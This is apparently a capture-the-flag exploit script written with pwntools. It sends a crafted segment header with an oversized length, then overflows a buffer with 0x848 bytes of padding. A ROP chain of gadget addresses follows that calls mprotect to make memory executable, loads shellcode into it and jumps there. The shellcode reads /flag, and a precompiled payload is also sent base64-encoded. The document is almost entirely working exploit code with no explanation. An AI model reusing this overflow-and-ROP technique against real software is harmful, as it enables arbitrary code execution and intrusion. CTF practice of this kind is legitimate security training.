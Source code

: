 ```python
### segment_hdr 0x30 - 0x38

cnt = 1
segment_hdr = p32(cnt) + p32(0) # a1[:30]

SEND(io, segment_hdr)

### segment 0x38 - 


### header 8 bytes
size = 0xf0000000
segment = p32(0) + p32(size)
SEND(io, segment) 

### content size bytes

# 0x00000000004006a6 : pop rdi ; ret
# 0x000000000045c139 : pop rdx ; pop rsi ; ret
# 0x00000000004005af : pop rax ; ret
# 0x00000000004859c5 : syscall ; ret


# mprotect(buf, 0x1000, 4|2|1)

buf_addr = 0x6D4000

rop = flat(0x00000000004006a6, buf_addr,
        0x000000000045c139, 7, 0x1000,
        0x00000000004005af, 10,
        0x00000000004859c5)

# read(0, buf, 0x100)

# rop += flat(0x00000000004006a6, 0,
#         0x000000000045c139, 0x100, buf_addr,
#         0x00000000004005af, 0,
#         0x00000000004859c5)


shellcode = asm(shellcraft.open("/flag"))
shellcode += asm(shellcraft.read('rax', buf_addr+0x200, 0x20))
shellcode += asm(shellcraft.write(1, buf_addr+0x200, 0x20))

with open("exp.o", 'rb') as f:
    shellcode = f.read()

rop += flat(0x00000000004006a6, buf_addr,
        0x402a3c, len(shellcode)+1, 
        0x401ABB)


# ret2shellcode

rop += p64(buf_addr)

content = b'a'*0x848 + rop
SEND(io, content)

io.sendline()

io.sendline(base64.b64encode(shellcode))

```